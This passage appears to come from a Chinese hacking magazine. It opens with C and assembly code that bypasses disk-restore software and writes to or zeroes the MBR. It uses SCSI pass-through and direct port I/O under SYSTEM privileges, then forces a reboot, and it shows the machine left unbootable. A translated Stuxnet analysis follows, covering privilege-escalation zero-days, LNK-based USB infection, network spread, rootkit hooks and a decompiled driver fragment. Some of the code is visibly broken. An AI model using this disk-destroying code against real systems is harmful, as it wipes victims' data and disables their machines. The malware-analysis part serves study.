    InitializeObjectAttributes(&oa,&ObjectName,OBJ_CASE_INSENSITIVE,NULL,NULL);
    status=(NtOpenDirectoryObject)(&OpenObject,DIRECTORY_QUERY,&oa);
    if(!NT_SUCCESS(status)) return Result;

    do {
        BufferLength*=2;
        Buffer=(PCHAR)malloc(BufferLength);
        memset(Buffer,0,BufferLength);
        status=(NtQueryDirectoryObject)(OpenObject,Buffer,BufferLength,FALSE,TRUE,&uContext,&uResult);
    } while(status==STATUS_MORE_ENTRIES || status==STATUS_BUFFER_TOO_SMALL);

    if(NT_SUCCESS(status)) {
        pDirObjectInfo=(PDIRECTORY_BASIC_INFORMATION)Buffer;
        wcscpy(ObjName,pDirObjectInfo->ObjectName.Buffer);
        if(QueryDROSymbolLinkName(ObjName)==1) {
            Result=1;
            wcscpy(BusDevSymbolicName,L"\\\\.\\");
            wcscat(BusDevSymbolicName,ObjName);
            OutputDebugStringW(BusDevSymbolicName);
            break;
        }
        pDirObjectInfo++;
        ncount++;
        memset(ObjName,0,0x100);
    }

    if (Buffer)
        free(Buffer);
    return Result;
}

ULONG bypasswrite_disk(HANDLE hDev,PVOID InDataBuf, ULONG LBA)
{
    ULONG blockCount=1;
    SCSI_PASS_THROUGH_DIRECT_WITH_BUFFER sptdwb;
    ULONG length=0,returnlength=0;
    ULONG result;
    result = 1;
    if (hDev==INVALID_HANDLE_VALUE)
        return result;
    ZeroMemory(&sptdwb,sizeof(SCSI_PASS_THROUGH_DIRECT_WITH_BUFFER));
    sptdwb.sptd.Length = sizeof(SCSI_PASS_THROUGH_DIRECT);
    sptdwb.sptd.PathId = 0;
    sptdwb.sptd.TargetId = 1;
    sptdwb.sptd.Lun = 0;
    sptdwb.sptd.CdbLength = CDB12GENERIC_LENGTH;
    sptdwb.sptd.SenseInfoLength = sizeof(sptdwb.ucSenseBuf);
    sptdwb.sptd.DataIn = SCSI_IOCTL_DATA_OUT;
    sptdwb.sptd.DataTransferLength = blockCount * 512;
    sptdwb.sptd.TimeOutValue = 5000;
    sptdwb.sptd.DataBuffer = (PVOID *)InDataBuf;
    sptdwb.sptd.SenseInfoOffset = offsetof(SCSI_PASS_THROUGH_DIRECT_WITH_BUFFER,ucSenseBuf);
    sptdwb.sptd.Cdb[0] = SCSIOP_WRITE;
    sptdwb.sptd.Cdb[1] = 0x00;
    sptdwb.sptd.Cdb[2] = (UCHAR)((LBA >> 24) & 0xFF);
    sptdwb.sptd.Cdb[3] = (UCHAR)((LBA >> 16) & 0xFF);
    sptdwb.sptd.Cdb[4] = (UCHAR)((LBA >> 8) & 0xFF);
    sptdwb.sptd.Cdb[5] = (UCHAR)((LBA >> 0) & 0xFF);
    sptdwb.sptd.Cdb[6] = 0x00;
    sptdwb.sptd.Cdb[7] = (UCHAR)((blockCount >> 8) & 0xFF);
    sptdwb.sptd.Cdb[8] = (UCHAR)((blockCount >> 0) & 0xFF);
    sptdwb.sptd.Cdb[9] = 0x00;
    length = sizeof(SCSI_PASS_THROUGH_DIRECT_WITH_BUFFER);
    result = DeviceIoControl(hDev,IOCTL_SCSI_PASS_THROUGH_DIRECT,&sptdwb,length,&sptdwb,length,&returnlength,FALSE);
    if (result!=0)
    {
        OutputDebugString("Passthrough ok!");
        CloseHandle(hDev);
        result=0;
        return result;
    }
    CloseHandle(hDev);
    return result;
}

int main(int argc,char* argv[])
{
    ULONG result;
    HANDLE hDevice;
    char buffer[100]={0};
    char outbuffer[200]={0};
    ULONG StartLBA;
    BYTE Inbuffer[0x200]={0};
    printf("ByPass Disk Revert for test...\n");
    if (argc!=3)
    {
        printf("Usage:Passthrough <StartLBA(x)> <select {YES or NO}>\n");
    }
    if (!stricmp((char *)argv[2],"YES"))
    {
        if (GetFuncAddressFromNtdll())
        {
            result=GetBusDeviceName();
            if (result)
            {
                // 开始构造 IOCTL_SCSI_PASS_THROUGH_DIRECT 指令来穿透还原
                hDevice = CreateFileW(BusDevSymbolicName,GENERIC_ALL,FILE_SHARE_READ|FILE_SHARE_READ,NULL,OPEN_EXISTING,0,0);
                if (hDevice)
                {
                    sprintf(buffer,"%s0x%x","获取总线设备符号连接的设备句柄:",hDevice);
                    OutputDebugString(buffer);
                    // 开始穿透还原测试
                    StartLBA = (ULONG)(atoi(argv[1]));
                    printf("StartLBA=%d\n",StartLBA);
                    memset(Inbuffer,0x38,0x200);
                    printf("Start ByPass Write!\n");
                    result=bypasswrite_disk(hDevice,Inbuffer,StartLBA);
                    if (!result)
                    {
                        sprintf(outbuffer,"%s%d%s","穿透磁盘成功, 起始第",StartLBA,"个扇区被写入数据,自行查看!");
                        OutputDebugString(outbuffer);
                        return 2;
                    }
                }
            }
        }
    }
    return 0;
}
```

使用编写好的穿透还原程序进行测试，环境为 Windows XP SP3 + 讯闪还原软件，对 MBR 整个扇区内容进行写入测试，效果如图 3 所示。



图 3

计算机重启之后，MBR 丢失，效果如图 4 所示：



图 4

这里 IOCTL_SCSI_PASS_THROUGH_DIRECT、IOCTL_SCSI_PASS_THROUGH 这两条指令差不多。区别是如果不调用 IOCTL_SCSI_PASS_THROUGH，那是因为底层 Miniport 驱动访问内存时，调用的 CDB 命令描述块可能需要直接访问内存，因此使用 IOCTL_SCSI_PASS_THROUGH_DIRECT 来代替。

解释一下：如果 CDB 的命令描述块要求直接访问内存，那么就用 IOCTL_SCSI_PASS_THROUGH_DIRECT，而不是 IOCTL_SCSI_PASS_THROUGH。

如果你还不能理解，请去找一些 SCSI 相关资料阅读。你用 IOCTL_SCSI_PASS_THROUGH 也可以，修改一下 sptdwb.sptd.DataBuffer，因为 IOCTL_SCSI_PASS_THROUGH 没有使用到 buffer 的指针。

网上某人说：Mjo011 给出 tophet.a 文档中的部分代码没用，有好几个暗桩。建议再仔细看看 SCSI 资料。

因此 MJO011 留言狠狠地挖苦了他，有兴趣的读者可以网上搜一下《RING0 和 RING3 穿透还原》。还要说最重要的一句：使用者必须具有 Administrator 以上权限，才可以使用 SCSI 写入权限。

创建的子线程也可以继承该权限；添加 ACL 的方法；创建服务进程自动就有 System 权限；HOOK ZwCreateProcessEx 函数等等。

我采用创建服务进程，然后在服务进程创建子进程，让其继承父进程的 System 权限即可。下面是直接读/写 I/O 来清零 MBR 的核心代码：

```c
BOOL IsSystemLevel()
{
    BOOL result=FALSE;
    OSVERSIONINFO osv;
    CHAR username[30]={0};
    DWORD cb=30;
    ZeroMemory(&osv,sizeof(osv));
    osv.dwOSVersionInfoSize=sizeof(osv);
    // 判断操作系统是否为 NT 以上
    GetVersionExA(&osv);
    if(!(osv.dwPlatformId & VER_PLATFORM_WIN32_NT))
    {
        result = FALSE;
        return result;
    }
    // 判断用户名是否是 Administrator/system
    GetUserNameA(username,&cb);
    OutputDebugStringA(username);
    if (strcmp(username,"system"))
    {
        result = FALSE;
        return result;
    }
    return 1;
}

// 进程获取 system 权限后，设置 IOPL=TRUE，可以在 User Mode 操作 I/O 端口
BOOL EnableUserModeHardwareIO()
{
    BOOL result=FALSE;
    DWORD dwProcessID=GetCurrentProcessId();

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS,FALSE,dwProcessID);
    HMODULE hNTDLL = GetModuleHandleA("ntdll.dll");
    DWORD ZwSetInformationProcess_Address;
    ULONG IOPL=1;
    if(hNTDLL)
    {
        ZwSetInformationProcess_Address = (DWORD)GetProcAddress(hNTDLL,"ZwSetInformationProcess");
        if(ZwSetInformationProcess_Address)
        {
            result=IsSystemLevel();
            if(result)
            {
                __asm{
                    pushad
                    push 4
                    lea eax,IOPL
                    push eax
                    push 16
                    push hProcess
                    call ZwSetInformationProcess_Address
                    mov result,eax
                    popad
                }
            }
        }
    }
}
```

```c
if (!result)
    result = TRUE;
...
CloseHandle(hProcess);
return result;

/// 用 I/O 端口读写磁盘，将磁盘的前 8 个扇区清 0
int UsermodeByPass()
{
    __asm {
write:
    mov dx,1F6h      // 要写入的磁盘号及磁头号
    mov al,0x00
    out dx,al
    mov dx,1F2h      // 要写入的扇区数量
    mov al,1
    out dx,al
    mov dx,1F3h      // 要写的扇区号
    mov al,1
    out dx,al
    mov dx,1F4h      // 要写的柱面的低 8 位
    mov al,0
    out dx,al
    mov dx,1F5h      // 柱面高 2 位
    mov al,0
    out dx,al
    mov dx,1F7h      // 命令端口
    mov al,30h       // 尝试写入扇区
    out dx,al
inputs:
    in  al,dx
    test al,8
    jz short inputs
    xor ecx,ecx
    mov cx,100h
    mov dx,1F0h
    lea esi,[inbuf]
    cli
    cld
    rep outsw
    sti
    }
    shutdownsys();
    return 0;
}

int shutdownsys()
{
    __asm mov dx,0x64
    __asm mov al,0xFE
    __asm out dx,al
    return 0;
}
```

使用 ZwSetInformationProcess 设置参数 IOPL 的值为 TRUE 时，进程就具有 I/O 操作权限。文中回顾了 CPL<=IOPL 条件在内核态与应用层下的差异，并引出在特定条件下可直接进行 I/O 读写。

EPROCESS->KPROCESS、PCB 中 IOPL 与 EFLAGS 的关系决定了是否可在应用层完成端口 I/O。作者说明了读/写磁盘与 DOS 编程类似：设置寄存器中的读写位置与大小，再通过 out、in 指令进行操作，并给出了在 WinXP SP3 + 还原精灵环境下的效果说明。



图 5

重启后 MBR 被清 0，系统无法进入。文中指出这种方式容易被安全软件监控，通用性较差。随后讨论了 RING3 下穿透还原的其他技术路线，即绕过还原过滤驱动，将读/写指令下发到底层驱动；并进一步谈及 Windows 的封闭性、隐藏性与脆弱性带来的攻击与研究空间，最后以编辑提醒收束全文。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：Windows 系统编程

关键词：rootkit，驱动，U 盘感染

## Stuxnet 蠕虫攻击原理分析

文/Amr Thabet  译/小小衫


Stuxnet 不仅仅是一种新型病毒，或者说是恶意蠕虫，它或许将开启一个网络病毒战争和网络恐怖主义的新时代。或许大家心里都认为病毒不过是网络犯罪者制造的一些恶意程序罢了，如窃取钱财、发送垃圾邮件或者收集个人隐私数据等，但或许这次是第一次听到，病毒将摧毁建筑、破坏电厂、工厂等各种工业系统甚至杀害人们，这就是 Stuxnet。在过去的一年里，Stuxnet 已经引起了全球大量恶意程序研究者的关注，它的到来甚至干扰了伊朗核计划实施进程。

它的巨大威胁主要建立在 Windows 系统上的四种零日漏洞攻击和一些躲避反病毒软件检测的反检测伎俩。通过感染可编程控制器 PLCs，修改机器的控制程序以改变它的执行行为。下面，本文将探讨 Stuxnet 的工作原理及其生命周期。

### 1. Stuxnet 生命周期



图 1

Stuxnet 病毒在 Windows 系统的生命周期，下面小节将从 WTR4132.TMP 文件开始详细阐述如图 1 所示中的每个步骤。

### 2. Main Dropper（~WTR4132.TMP）

它是一个动态链接库文件，伴随着机器启动时加载在 Explorer.exe 进程中。当它寻找到一个命名为“.stub”的段后，即开始运行。此段中包含 Stuxnet 关键 DLL 文件，此 DLL 文件包含了 Stuxnet 中的所有实现函数、机制、文件及各种 rootkits。

在找到“.stub”段之后，它会以一种特殊的方式加载 Stuxnet DLL 文件。首先，它会为此 DLL 文件分配一个内存缓冲区，然后修改以下 6 个 ntdll.dll API 函数：ZwMapViewOfSection、ZwCreateSection、ZwOpenFile、ZwClose、ZwQueryAttributesFile、ZwQuerySection。为了使这些 API 函数能够像调用 ZwOpenFile 打开磁盘文件一样获取“.stub”段内容，这些补丁的作用即迫使函数 LoadLibraryA 从内存的某个位置加载一个 DLL 文件。

### 3. Main Stuxnet DLL

#### 提升权限并寻找注入体

当主 DLL 文件开始执行时，首先它会简单校验自己的配置数据，检查执行环境，然后确定是否继续执行或从原加载位置退出。若没有运行在管理员权限，它会使用以下两个零日漏洞中的一个，以提升权限使其运行在 Admin 级：

- CVE-2010-2743（MS-10-073）——Win32k.sys 键盘布局漏洞
- CVE-xxxx-xxxx（MS-xx-xxx）——Windows 任务调度漏洞

这两个漏洞允许蠕虫提升权限并寄宿在一个新进程体内（如 Win32k.sys 中的“csrss.exe”），或者作为一个任务调度队列中新任务运行。在 Stuxnet 的感染环境都准备好后，它会寻找一个反病毒应用程序进行注入，注入成功后将在寄宿进程体内安装运行。

Stuxnet 会根据不同的反病毒软件（AVP、McAfee 等）选择不同的进程进行注入。若系统中不存在反病毒程序时，Stuxnet 会选择“lsass.exe”作为寄宿进程。在进程注入时，它并不会在任务管理器中搜索寄宿进程，而是使用进程挂起的方式通过 CreateProcess 函数创建一个新进程，如：

```txt
ESP ==>   > 0006E4E8   | ModuleFileName = "C:\\WINDOWS\\system32\\lsass.exe"
ESP+4     > 00000000   | CommandLine = NULL
ESP+8     > 00000000   | pProcessSecurity = NULL
ESP+0C    > 00000000   | lpThreadSecurity = NULL
ESP+10    > 00000001   | bInheritHandles = TRUE
ESP+14    > 0800000C   | dwCreationFlags = CREATE_SUSPENDED | DETACHED_PROCESS | CREATE_NO_WINDOW
ESP+18    > 00000000   | lpEnvironment = NULL
ESP+1C    > 00000000   | lpCurrentDir = NULL
ESP+20    > 0006F13C   | lpStartupInfo = 0006F13C
ESP+24    > 0006F730   | lpProcessInfo = 0006F730
```

进程创建后，Stuxnet 会在它的 DLL 资源中选择一个 PE 文件替换此进程模块。此 PE 文件在加载之前，Stuxnet 会在此文件的起始字节处添加一个“.verif”段，使得 PE 文件大小与之前替换的进程模块大小一致，然后在替换模块的起始位置写入一条“jmp”指令转入到 PE 文件入口处。最后，Stuxnet 将 stub 段和主 DLL 拷贝到寄宿进程内存空间，并在 .bin 段写入一指针指向此内存缓冲区，即完成整体注入。

Stuxnet 主 DLL：在感染主机上安装 Stuxnet 在调用函数 #16 时，它需要再次检验配置数据以确保安装环境是否都具备，并检查注册表中 `SOFTWARE\Microsoft\Windows\CurrentVersion\MS-DOS Emulation\0F` 键码为 “NTVDM TRACE” 的键值是否为 “19790509”。据说此数值即 1979 年 5 月 9 日——伊朗伊斯兰革命后新政府处决了一位知名犹太人 Habib Elghanian 的日期。确认后，Stuxnet 开始安装并衍生出以下 6 个文件：

- `C:\WINDOWS\inf\oem7A.PNF`
- `C:\WINDOWS\inf\oem6C.PNF`
- `C:\WINDOWS\inf\mdmcpq3.PNF`
- `C:\WINDOWS\inf\mdmeric3.PNF`
- `C:\WINDOWS\system32\Drivers\mrxnet.sys`
- `C:\WINDOWS\system32\Drivers\mrxcls.sys`

上面的两个驱动文件分别被注册为名为 MRXCLS 和 MRXNET 的系统服务。前者对 WinCC 系统展开攻击；后者从内核层次隐藏一些关键的文件，包括被拷贝到 U 盘的 lnk 文件和 DLL 文件。在调用 ZwLoadDriver 函数加载 Mrxnet 驱动时，它先调用 AdjustTokenPrivileges 函数为其增加 SeLoadDriverPrivilege 权限，然后再修改 Windows 防火墙设置，如对 `SOFTWARE\Microsoft\Windows Defender\Real-Time Protection` 下的几个键码值 EnableUnknownPrompts、EnableKnownGoodPrompts、ServicesAndDriversAgent 全部设置为 0。到此，整个安装过程全部结束。

### 4. 感染扩散原理

#### USB 驱动感染过程

Stuxnet 蠕虫最主要的传播方法即将自己拷贝到可移动 U 盘。工业控制系统通常都是由不接入互联网的 Windows 机器编程实现的，操作员一般都是使用 U 盘实现不同系统之间的数据传输。Stuxnet 使用了两种方式实现 U 盘的感染：其一，使用文件快捷方式解析漏洞；其二，使用 autorun.inf 文件。

方法一：Stuxnet 首先创建一个隐藏窗口 “AFX64c313”，以及时获取 USB 插入到 PC 上引起的 “WM_DEVICECHANGE” 消息。当新驱动设备加载到 PC 时，Stuxnet 会检查以下条件判断此 U 盘是否适合感染：

- 驱动没有感染
- 感染 U 盘驱动的配置标志是否设置
- 感染周期是否小于 21 天
- 驱动剩余空间是否大于 5MB
- 驱动中至少存在 3 个文件

当前面的几个条件均满足时，Stuxnet 会向闪存内写入 6 个文件，分别为：

- Copy of Shortcut to.lnk
- Copy of Copy of Shortcut to.lnk
- Copy of Copy of Copy of Shortcut to.lnk
- Copy of Copy of Copy of Copy of Shortcut to.lnk
- ~WTR4141.tmp
- ~WTR4132.tmp

上面 4 个快捷方式即利用了 Windows Shell 组件内的文件快捷方式漏洞 CVE-2010-2568。此漏洞利用 Windows 在解析快捷方式文件（如 lnk 文件）时的系统机制缺陷，使系统加载攻击者指定的 DLL 文件，从而触发攻击行为。因为 Windows 在显示快捷方式文件时，会根据文件中的信息寻找对应的图标，并将其作为文件图标展现给用户。若图标资源在一个 DLL 文件中，系统就会加载这个 DLL 文件，故攻击者可利用此漏洞构造一个恶意快捷方式文件，使系统加载指定的 DLL 文件，从而执行其中的恶意代码，即 WTR4141.tmp 文件。

这些快捷方式是一类命名为 CPL 的特殊文件类型。读者可以在控制面板下针对某个系统应用右键创建一个类似的快捷方式，将创建的快捷方式与 Stuxnet 产生的快捷方式对比如下。

从图 2 中可以看出，两者之间并不存在很大的差别。这里，读者可能会问为何 Stuxnet 需要创建 4 个快捷方式。设计者主要是考虑 Stuxnet 在 Windows 不同版本之间的兼容性，即在 4 个快捷方式中分别包含一个不同的路径，如下所示：

```txt
(1) Windows 7:
\\.\STORAGE#Volume#_??_USBSTOR#Disk&Ven_USB&Prod_FLASH_DRIVE&Rev_#12345000100000000173&0#{53f56307-b6bf-11d0-94f2-00a0c91efb8b}#\{53f5630d-b6bf-11d0-94f2-00a0c91efb8b}\~WTR4141.tmp

(2) Windows Vista:
（后续路径列表）
```





图 2

整个 USB 感染过程如图 3 所示。



图 3

#### 网络传播

Stuxnet 利用下面两个漏洞实现网络传播：CVE-2008-4250——Windows 服务器服务中的 NetPathCanonicalize() 漏洞和 CVE-2010-2729——打印机后台服务程序漏洞。

Stuxnet 利用第一个漏洞在远端系统中扫描 C$ 和 Admin$ 共享文件，然后将自己命名为“DEFRAGxxxxx.TMP”文件，写入到所有共享文件夹中第一个具备写权限的目录下，然后尝试执行 `rundll32.exe "DEFRAGxxxxx.TMP" DlGetClassObjectEx`。在 Windows 2000、Windows XP 和 Windows Server 2003 系统中，利用这一漏洞，攻击者可能未经身份验证即可利用此漏洞运行任意代码，并且获取完整的权限。

第二个漏洞是一个零日漏洞，最早由 Carsten Kohler 在 Hackin9 安全杂志 09 年第 4 期上描述，并命名为“Print Your Shell”。此漏洞在 Stuxnet 出现之前并没有广泛应用。攻击者可以提交一恶意打印请求，将文件发送给网络上共享了打印后台程序接口的主机的 %System32% 目录下。Windows 打印类 API 函数允许用户将文件拷贝到指定目录下。使用 GetSpoolFileHandle 函数，我们可以从目标主机上获取最新创建的文件对应句柄值，同时也可以很容易地使用 ReadFile 以及 WriteFile 函数将文件拷贝到目标主机。Stuxnet 拷贝如下两个文件：`Windows\System32\winsta.exe`、`Windows\System32\wbem\mof\sysnullevnt.mof` 到目标主机实施感染。

## 5. Rootkits 分析

### User-Mode Rootkit（"WTR4141.TMP"）

前面提到 WTR4141.TMP 文件是通过 LNK 漏洞加载运行的。此 DLL 文件不仅用来加载主 Stuxnet Dropper（"WTR4132.TMP"），而且也是一个用户态 Rootkit，成功实现了 Stuxnet 蠕虫文件在 U 盘符的隐藏。通过修改主进程 Explorer.exe 的导入表地址及所有已加载模块，hook 5 个文件管理类的 API 函数（FindFirstFileW、FindNextFileW、FindFirstFileExW、NtQueryDirectoryFile、ZwQueryDirectoryFile）实现隐藏。当系统调用此类函数时，它们会校验遍历的文件是否包含大小为 4171 字节的 .LNK 文件，或者命名为 “~WTRabcd.TMP” 的文件。

#### 内核级 Rootkit（MRxNet）

驱动 MRxNet.sys 在蠕虫通过 USB 盘符传播时被用来隐藏 .LNK 文件。此驱动是一个简单的文件系统过滤驱动。笔者使用 IDA Pro 工具反编译了此驱动，读者可以从我的博客地址 http://www.amrthabet.co.cc 上下载。

```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT pDriverObject, IN PUNICODE_STRING theRegistryPath) {
    int i;
    NTSTATUS status;
    DriverObject = pDriverObject;
    status = IoCreateDevice(DriverObject,
        sizeof(_DEVICE_EXTENSION), 0,
        FILE_DEVICE_DISK_FILE_SYSTEM, 0x100, 0, &DeviceObject);
    if (status != STATUS_SUCCESS) {
        IoDeleteDevice(DeviceObject);
        return 0;
    }
    SetZero(DeviceObject->DeviceExtension, 0);
    for (i = 0; i <= IRP_MJ_MAXIMUM_FUNCTION; i++) {
        DriverObject->MajorFunction[i] = IRPDispatchRoutine;
    }
    DriverObject->MajorFunction[IRP_MJ_FILE_SYSTEM_CONTROL] = OnFileSystemControl;
    DriverObject->MajorFunction[IRP_MJ_DIRECTORY_CONTROL] = OnDirectoryControl;
}
```

